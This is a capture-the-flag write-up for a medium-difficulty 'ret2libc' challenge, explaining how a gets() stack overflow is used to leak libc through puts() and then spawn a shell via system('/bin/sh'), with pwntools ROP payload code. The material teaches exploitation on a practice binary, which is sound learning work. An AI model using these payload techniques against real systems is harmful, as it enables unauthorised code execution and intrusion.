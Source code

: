 # ret2libc
# Difficulty: Medium

Assumption: Know about the PLT/GOT, basic stack overflows, basic ROP theory
Ping me on discord (`garrettgu10#8125`) if you don't know these~!

You might also find it helpful to take a look at this writeup for a very
similar problem: 
https://github.com/utisss/ctf/tree/master/2020/ctf-10-16-2020/binary-shellcode2

When we first load up the binary in pwntools, we find that the program has ASLR
enabled, as well as NX, but does not use a stack canary.

```
[*] '/home/garrettgu/foreverctf/pwn-ret2libc/ret2libc'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Our end goal is to call system() in the libc library. However, since our target
program does not call system(), this means that the PLT does not contain an 
entry for system(). Looking at the symbol table, we see that there is a PLT 
entry for puts() and gets(), since these are the two only libc functions used
by the vulnerable program. 

Of course, the entire libc library itself is mapped into the program's address
space, but since we have ASLR enabled, the libc base address is subject to 
change. So we need to leak the libc address first. Our plan is to leak the 
address stored in the GOT for puts() (since our program already called it &
thus populated its GOT entry) by faking a call to puts() through the PLT. This
works since both the GOT and the PLT are linked statically within the target
ELF file. 

By inspecting the source code using a tool like Ghidra or Cutter, we can see 
that the main function calls gets() on a stack address. Since there's no stack
canary, this means that we can overwrite the return address. 

Using a process identical to the process in the writeup linked above, we find 
that inputting 56 filler bytes, followed by some 8-byte value replaces the 
return address with the value. 

We want to first leak the libc base. In order to do this, we call puts() 
through the PLT address, passing in the address to the GOT entry for puts().
Finally, we return to main, so we can put in another payload after leaking the
libc base address.

```python
poprdi = rop.find_gadget(["pop rdi", "ret"])[0]
pltputs = 0x401050 
# hardcoded address since pwntools seems to have issues getting the plt address through the symbol table
# you can find this address easily through the sidebar in Cutter, Ghidra, or by disassembling "puts" through objdump.
conn.send(b' '*56 + p64(poprdi) + p64(e.got['puts']) + p64(pltputs) + p64(e.symbols['main']) + b'\n')
```

Once we leaked the puts address, we can call system(), by finding some location
in the libc library that happens to contain the string "/bin/sh", popping an 
address to that string, then finally returning to the address of system(), 
offsetted by the libc base. Since libc requires RSP to be 16-byte aligned when
entering the function, I ran into a segfault halfway through executing system().
This alignment issue can be fixed by adding a ROP gadget consisting only of 
"RET" to pad out the rsp.

```python
libcoff = puts - libc.symbols['puts']
binsh = next(libc.search(b'/bin/sh')) + libcoff

print(hex(libcoff))

conn.send(b' '*56 + p64(poprdi) + p64(binsh) + p64(ret) + p64(libcoff + libc.symbols['system']) + b'\n')

conn.interactive()
```

The full solution code is available here at `solution.py`. Please ping me on 
Discord (`garrettgu10#8125`)if any part of my writeup needs clarification ^^

